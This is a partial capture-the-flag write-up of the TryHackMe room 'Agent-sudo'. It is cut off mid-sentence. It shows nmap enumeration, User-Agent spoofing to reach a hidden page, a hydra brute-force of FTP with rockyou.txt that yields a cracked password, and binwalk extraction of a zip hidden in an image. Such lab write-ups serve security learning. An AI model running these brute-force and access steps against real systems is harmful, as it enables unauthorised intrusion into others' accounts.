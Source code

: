 ### Agent-sudo

export IP - 10.10.25.133

#### Author's Note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.


#### Enumerate

Enumerate the machine and get all the important information

How many open ports?
- 3

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.25.133
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-18 10:28 EDT
Nmap scan report for 10.10.25.133
Host is up (0.71s latency).
Not shown: 990 closed tcp ports (conn-refused)
PORT      STATE    SERVICE  VERSION
21/tcp    open     ftp      vsftpd 3.0.3
22/tcp    open     ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp    open     http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
212/tcp   filtered anet
544/tcp   filtered kshell
2013/tcp  filtered raid-am
4004/tcp  filtered pxc-roid
8649/tcp  filtered unknown
15000/tcp filtered hydap
41511/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 212.52 seconds
                                                              
```

Looking at the webpage we are greeted with a message:

![[Pasted image 20220818203145.png]]

From there we can use burp to check what is happening:

![[Pasted image 20220818203258.png]]

Upon checking, we can see the `User-Agent` that Agent R is referring. We can change this to C, like so:

![[Pasted image 20220818203403.png]]

After that we are greeted by a redirection page:

![[Pasted image 20220818203431.png]]

![[Pasted image 20220818203442.png]]

![[Pasted image 20220818203458.png]]

Using these information, we can now use hydra to crack ftp password (remember nmap, port 22 and port 80?) since Agent R said password is weak:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.170.97 ftp -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-18 20:24:14
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.170.97:21/
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 14344351 to do in 4980:41h, 4 active
[STATUS] 48.00 tries/min, 144 tries in 00:03h, 14344255 to do in 4980:39h, 4 active
[21][ftp] host: 10.10.170.97   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-18 20:29:35
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ 


```

#### Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

FTP Password: crystal

Use the username and password acquired from earlier 

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ ftp 10.10.170.97
Connected to 10.10.170.97.
220 (vsFTPd 3.0.3)
Name (10.10.170.97:kali): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62242|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||10689|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |**************************************************************************|   217        1.39 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.29 KiB/s)
ftp> 

```


![[Pasted image 20220818203845.png]]

Using binwalk, i checked for any zip files inside the pictures:

```

┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ binwalk cute-alien.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01

                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]


```

After that, i extracted the zip file on the image using binwalk -e flag:

```

┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ binwalk cutie.png -e  

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ ls
cute-alien.jpg  cutie.png  _cutie.png.extracted  gobuster_scan.txt  nmap_results.txt  README.md  To_agentJ.txt


```

Once zip file is extracted, i use






